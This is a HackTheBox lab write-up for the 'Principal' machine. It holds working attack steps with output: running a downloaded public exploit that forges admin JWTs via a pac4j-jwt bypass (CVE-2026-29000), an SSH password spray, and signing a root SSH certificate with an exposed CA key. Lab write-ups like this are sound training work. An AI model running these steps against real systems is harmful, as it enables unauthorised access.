


# [Principal](https://app.hackthebox.com/machines/Principal) - HackTheBox Machines Writeup

```
Box       : Principal
OS        : Linux (Ubuntu 24.04)
Difficulty: Medium
Target    : 10.129.191.246
Attacker  : 10.10.15.176
```

The guided questions and my answers are kept inline alongside the commands that produced them.

---

## Attack Path Overview

```
Exposed JWKS Endpoint  >  pac4j-jwt Signature Bypass (CVE-2026-29000)
        v
Forged Admin JWT  >  Full User List + Activity Log via /api
        v
Plaintext Password in Web App  >  SSH Password Spray  >  Shell as svc-deploy
        v
deployers Group  >  Readable SSH CA Private Key (/opt/principal/ssh/ca)
        v
Self-Signed SSH Certificate (principal: root)  >  root
```

---

## 1. Reconnaissance

> **Task:** How many open TCP ports are listening on Principal?
>
> **Answer:** 2

```bash
$ nmap -p- 10.129.191.246
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-31 20:01 +0100
Nmap scan report for 10.129.191.246
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Just SSH (22) and a web service on 8080.

## 2. Web Enumeration

### 2.1 Fingerprinting the Service

> **Task:** What version of pac4j-jwt is in use?
>
> **Answer:** 6.0.3

```bash
$ nmap -sC -sV -p 8080 10.129.191.246
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-01 13:54 +0100
Nmap scan report for 10.129.191.246
Host is up (0.017s latency).

PORT     STATE SERVICE    VERSION
8080/tcp open  http-proxy Jetty
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Date: Sun, 01 Nov 2026 12:54:33 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
```

A 404 response leaks the `X-Powered-By` header, which gives away the exact library and version: `pac4j-jwt/6.0.3`. This is notably different from the version the application itself advertises - the site footer shows:

```
<p class="version-tag">v1.2.0 | Powered by pac4j</p>
```

`v1.2.0` is the application's own version. `pac4j-jwt/6.0.3` is the authentication library it depends on.

### 2.2 Client-Side Enumeration

> **Task:** Which endpoint serves the main JavaScript file for the web application?
>
> **Answer:** `/static/js/app.js`

Visible directly in Firefox DevTools under the loaded resources for the page.



> **Task:** What API endpoint holds a public key?
>
> **Answer:** `/api/auth/jwks`

Also visible in DevTools: the application fetches its RSA public key (JWKS format) from this endpoint on load.

### 2.3 Directory Enumeration

A quick `gobuster` run against `/api` fills in the rest of the surface. The app returns `401` for unauthenticated requests on most paths, so that status gets excluded as a negative match:

```bash
$ gobuster dir -u http://10.129.191.246:8080/api -w /usr/share/wordlists/dirb/common.txt -b 401

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.191.246:8080/api
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   401
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
health               (Status: 200) [Size: 33]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

```bash
$ curl http://10.129.191.246:8080/api/health
{"version":"1.2.0","status":"UP"}
```

Nothing unauthenticated beyond that.

## 3. Authentication Bypass - CVE-2026-29000

Googling `pac4j-jwt/6.0.3` turns up [CVE-2026-29000](https://app.opencve.io/cve/CVE-2026-29000). The root cause: pac4j-jwt's `JwtAuthenticator` accepts a JWE-wrapped `PlainJWT` without properly re-validating the inner token's signature. Since the whole point of `/api/auth/jwks` is to publish the application's RSA public key, anyone can use that key to wrap an unsigned JWT with arbitrary subject and role claims and have it accepted as genuine, authenticating as any user.

A public exploit already exists: [yasirr10/CVE-2026-29000](https://github.com/yasirr10/CVE-2026-29000).

```bash
$ wget https://raw.githubusercontent.com/yasirr10/CVE-2026-29000/refs/heads/main/exploit.py
```

```bash
$ python3 exploit.py
===========================================================================
CVE-2026-29000 - pac4j-jwt Authentication Bypass Exploit
===========================================================================

[+] Please provide the following information:
[+] Target Base URL (e.g. http://127.0.0.1:8080): http://10.129.191.246:8080
[+] JWKS Public Key URL (e.g. http://127.0.0.1:8080/api/auth/jwks): http://10.129.191.246:8080/api/auth/jwks

[+] Target   : http://10.129.191.246:8080
[+] JWKS URL : http://10.129.191.246:8080/api/auth/jwks

[*] Fetching RSA public key from JWKS...
[+] Successfully loaded RSA public key (kid: enc-key-1)
[+] Created unsigned PlainJWT (alg: none) with admin privileges

================================================================================
[+] FORGED AUTHENTICATION BYPASS TOKEN
================================================================================
eyJhbGciOiAiUlNBLU9BRVAtMjU2IiwgImVuYyI6ICJBMTI4R0NNIiwgImtpZCI6ICJlbmMta2V5LTEiLCAiY3R5IjogIkpXVCJ9...(truncated)...xJNe6A9dKFy6EFxYkisASw
================================================================================

[+] Token successfully saved to -> forged_token.txt
```

## 4. Admin API Access

With the forged token saved, calling the authenticated API as "admin" works without ever logging in:

```bash
$ curl -H "Authorization: Bearer $(cat forged_token.txt)" http://10.129.191.246:8080/api/dashboard
```

```json
{
  "user": {"role": "ROLE_ADMIN", "username": "admin"},
  "recentActivity": [
    {"action": "CERT_ISSUED", "username": "svc-deploy",
     "details": "SSH certificate issued for deploy-1735400000"},
    ...
  ],
  "announcements": [
    {"title": "New SSH CA Rotation", "severity": "warning",
     "message": "SSH CA keys have been rotated. All deploy certificates issued before Dec 1 are revoked."}
  ]
}
```

This is the first hint that `svc-deploy` authenticates via an SSH certificate, signed by some CA, rather than a plain password.

```bash
$ curl -H "Authorization: Bearer $(cat forged_token.txt)" http://10.129.191.246:8080/api/users
```

This returns the full user directory - 8 accounts in total, with usernames, emails, roles and departments. The entry for `svc-deploy` is the most interesting:

```json
{
  "username": "svc-deploy",
  "role": "deployer",
  "department": "DevOps",
  "note": "Service account for automated deployments via SSH certificate auth."
}
```

### 4.1 Reviewing app.js

Going back to `app.js` shows how the frontend handles the token:

```javascript
class TokenManager {
    static getToken() {
        return sessionStorage.getItem('auth_token');
    }

    static setToken(token) {
        sessionStorage.setItem('auth_token', token);
    }

    static clearToken() {
        sessionStorage.removeItem('auth_token');
    }

    static isAuthenticated() {
        return !!this.getToken();
    }

    static getAuthHeaders() {
        const token = this.getToken();
        return token ? { 'Authorization': `Bearer ${token}` } : {};
    }
}
```

Confirms the client simply stores whatever token it is handed in `sessionStorage` under `auth_token` and trusts it.



### 4.2 Browsing the Dashboard as Admin

Since the frontend only checks `sessionStorage` for a token, the forged token can be used directly in the browser instead of via `curl`: open Firefox DevTools, set `sessionStorage.setItem('auth_token', '<forged token>')`, then reload the page. The app immediately treats the session as an authenticated `admin` and the dashboard UI itself becomes browsable.

> **Task:** What is the plaintext password that can be found in the web application?
>
> **Answer:** `D3pl0y_$$H_Now42!`

Browsing the admin dashboard this way, the **Security** section displays a plaintext password: `D3pl0y_$$H_Now42!`.

## 5. Initial Access - Password Spray

> **Task:** Which user can successfully authenticate to SSH using the plaintext password?
>
> **Answer:** `svc-deploy`

The user list from `/api/users` gives a username wordlist, and the plaintext password found earlier gives something to spray with:

```bash
$ echo -e "admin\nsvc-deploy\njthompson\namorales\nbwright\nkkumar\nmwilson\nlzhang" > users.txt

$ nxc ssh 10.129.191.246 -u users.txt -p 'D3pl0y_$$H_Now42!' --continue-on-success

SSH         10.129.191.246  22     10.129.191.246   [*] SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.14
SSH         10.129.191.246  22     10.129.191.246   [-] admin:D3pl0y_$$H_Now42!
SSH         10.129.191.246  22     10.129.191.246   [+] svc-deploy:D3pl0y_$$H_Now42!  Linux - Shell access!
SSH         10.129.191.246  22     10.129.191.246   [-] jthompson:D3pl0y_$$H_Now42!
SSH         10.129.191.246  22     10.129.191.246   [-] amorales:D3pl0y_$$H_Now42!
SSH         10.129.191.246  22     10.129.191.246   [-] bwright:D3pl0y_$$H_Now42!
SSH         10.129.191.246  22     10.129.191.246   [-] kkumar:D3pl0y_$$H_Now42!
SSH         10.129.191.246  22     10.129.191.246   [-] mwilson:D3pl0y_$$H_Now42!
SSH         10.129.191.246  22     10.129.191.246   [-] lzhang:D3pl0y_$$H_Now42!
```

Only `svc-deploy` reuses that password.

```bash
$ ssh svc-deploy@10.129.191.246
svc-deploy@10.129.191.246's password:
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

svc-deploy@principal:~$ cat user.txt
d58d0b2a**********
```

## 6. Privilege Escalation - SSH CA Abuse

> **Task:** What interesting group is svc-deploy part of?
>
> **Answer:** `deployers`

```bash
svc-deploy@principal:~$ id
uid=1001(svc-deploy) gid=1002(svc-deploy) groups=1002(svc-deploy),1001(deployers)
```

> **Task:** What directory does the deployers group have read access to?
>
> **Answer:** `/opt/principal/ssh`

```bash
svc-deploy@principal:~$ find / -group 1001 -type d 2>/dev/null
/opt/principal/ssh
```

> **Task:** Which file contains a custom sshd configuration for Principal?
>
> **Answer:** `/etc/ssh/sshd_config.d/60-principal.conf`

```bash
svc-deploy@principal:~$ ls /etc/ssh/sshd_config.d/
50-cloud-init.conf  60-principal.conf

svc-deploy@principal:~$ cat /etc/ssh/sshd_config.d/60-principal.conf
# Principal machine SSH configuration
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

### 6.1 Understanding TrustedUserCAKeys

Per the `sshd_config` manpage, `TrustedUserCAKeys` points to a file of CA public keys that `sshd` will trust to sign user certificates. If a presented certificate is signed by a CA listed there, it is accepted for authentication as any user named in the certificate's principals list. Here that file is `/opt/principal/ssh/ca.pub` - and the `deployers` group has read access to the whole `/opt/principal/ssh` directory, not just the public key:

```bash
svc-deploy@principal:~$ ls /opt/principal/ssh/
README.txt  ca  ca.pub
```

`ca` alongside `ca.pub` is the CA's **private** key. Anyone who can read it can sign a certificate for any principal they like - including `root` - and `sshd` will trust it, because it is signed by the very CA listed in `TrustedUserCAKeys`.

### 6.2 Forging a root Certificate

```bash
svc-deploy@principal:~$ ssh-keygen -t ed25519 -f /tmp/pwn -N ""
Generating public/private ed25519 key pair.
Your identification has been saved in /tmp/pwn
Your public key has been saved in /tmp/pwn.pub
The key fingerprint is:
SHA256:D/ygADO1cAIDmaTCx+b5KgWIf5oQ2X4M/HOEJb2g0xA svc-deploy@principal
```

A fresh keypair of my own, then sign the public half with the leaked CA private key, asking for the `root` principal:

```bash
svc-deploy@principal:~$ ssh-keygen -s /opt/principal/ssh/ca -I "root" -n root /tmp/pwn.pub
Signed user key /tmp/pwn-cert.pub: id "root" serial 0 for root valid forever

svc-deploy@principal:~$ ssh-keygen -L -f /tmp/pwn-cert.pub
/tmp/pwn-cert.pub:
        Type: ssh-ed25519-cert-v01@openssh.com user certificate
        Public key: ED25519-CERT SHA256:D/ygADO1cAIDmaTCx+b5KgWIf5oQ2X4M/HOEJb2g0xA
        Signing CA: RSA SHA256:bExSfFTUaopPXEM+lTW6QM0uXnsy7CICk0+p0UKK3ps (using rsa-sha2-512)
        Key ID: "root"
        Serial: 0
        Valid: forever
        Principals:
                root
        Critical Options: (none)
        Extensions:
                permit-X11-forwarding
                permit-agent-forwarding
                permit-port-forwarding
                permit-pty
                permit-user-rc
```

A valid, forever-lived certificate authorising `root`.

### 6.3 Root Access

```bash
svc-deploy@principal:~$ ssh -i /tmp/pwn root@localhost
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

root@principal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@principal:~# cat root.txt
6f0b7***
```

## Lessons Learned

**For defenders:**

- **Keep dependencies patched.** A known bug in pac4j-jwt allowed me to enter. Regular dependency updates would have closed this off before it ever became a foothold.
- **Never store passwords in plaintext.** The deploy password sat unprotected in the admin dashboard's Security section.
- **Private keys need to stay private.** `TrustedUserCAKeys` only ever needed `ca.pub`; granting the `deployers` group read access to the whole `/opt/principal/ssh` directory exposed the CA's private key too, for no operational reason.
- **Certificates without principal or option restrictions are maximally powerful.** The CA signed a certificate for `root`.

**What I learned**

- **pac4j-jwt / JWE-wrapped PlainJWT bypass (CVE-2026-29000).** First time encountering this specific authentication library bug.
- **SSH certificate authentication end to end:** `TrustedUserCAKeys` in `sshd_config`, how `ssh-keygen -s` signs a certificate for a chosen principal, and why leaking the CA private key is equivalent to full control over who can log in as whom.

**Tools I used**

- nmap
- gobuster
- netexec (nxc)
- ssh-keygen
- CVE-2026-29000 public exploit (yasirr10)
